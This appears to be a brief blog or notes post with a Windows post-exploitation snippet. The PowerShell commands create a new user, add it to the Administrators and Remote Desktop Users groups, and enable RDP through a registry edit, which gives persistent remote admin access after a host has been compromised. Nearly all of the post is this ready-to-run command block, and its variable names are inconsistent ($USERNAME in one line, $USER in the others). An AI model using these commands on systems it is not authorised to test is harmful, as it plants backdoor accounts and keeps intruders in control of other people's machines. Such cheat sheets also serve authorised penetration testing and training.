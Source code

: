 # How to Quickly Add a User on Windows

If you’ve got SYSTEM (or just even local admin) on a Windows box, you can quickly add a new user from your shell for persistence and/or RDP access (useful for Impacket, etc.).

```powershell
net user $USERNAME $PASSWORD /add
net localgroup Administrators $USER /add
net localgroup "Remote Desktop Users" $USER /add
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

## References

* [Alice with Siddicky (Student Mentor) (YouTube)](https://www.youtube.com/watch?v=Zma6Mk5bEI8)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> April 25, 2022
